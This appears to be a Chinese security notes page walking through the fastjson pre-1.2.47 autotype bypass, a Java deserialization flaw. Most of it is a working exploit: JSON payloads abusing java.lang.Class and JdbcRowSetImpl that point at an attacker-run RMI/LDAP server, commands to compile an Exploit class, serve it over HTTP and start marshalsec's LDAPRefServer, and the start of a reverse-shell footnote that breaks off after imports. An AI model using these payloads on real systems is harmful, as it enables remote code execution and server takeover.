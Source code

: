 - ver<1.2.47**不开启autotype**
  这个版本发生了**不开启autotype**情况下能利用成功的绕过。解析一下这次的绕过：

  - 利用到了java.lang.class，这个类不在黑名单，所以checkAutotype可以过
  - 这个java.lang.class类对应的deserializer为MiscCodec，deserialize时会取json串中的val值并load这个val对应的class，如果fastjson cache为true，就会缓存这个val对应的class到全局map中
  - 如果再次加载val名称的class，并且autotype没开启（因为开启了会先检测黑白名单，所以这个漏洞开启了反而不成功），下一步就是会尝试从全局map中获取这个class，如果获取到了，直接返回.
    ``` json
    {
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"rmi://172.20.16.121:8000/Exploit",
            "autoCommit":true
        }
    }
    ```

## 利用流程

  - 安装JDK8
  - 编辑Exploit.java[^1Exploit.java][^2Exploit.java] ，编译成Exploit.class: `javac Exploit.java`。
  - 在Exploit.class文件目录下运行python服务器：`python3 -m http.server 80`（python2 -m SimpleHTTPServer 80）
  - 安装Maven，git下载marshalsec，切换到pom文件目录下，打包构建：`mvn clean package -DskipTests`（具体可以查看READEME文件），打包后到target目录下找到jar包。

  - 运行ldap或者rmi服务，端口7776。 http://172.20.16.121/#Exploit 为之前运行的python服务，IP换成自己的地址::  

          java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://172.20.134.239/#Exploit 7776

  - burpsuite发送payload::

         {
          "name":{
              "@type":"java.lang.Class",
              "val":"com.sun.rowset.JdbcRowSetImpl"
          },
          "x":{
              "@type":"com.sun.rowset.JdbcRowSetImpl",
              "dataSourceName":"ldap://172.20.16.121:7776/Exploit",
              "autoCommit":true
          }
      }

[^1Exploit.java]:反弹shell①:

    ``` java

        import javax.naming.Context;
        import javax.naming.Name;
        import javax.naming.spi.ObjectFactory;
        import java.io.IOException;
        import java.util.Hashtable;
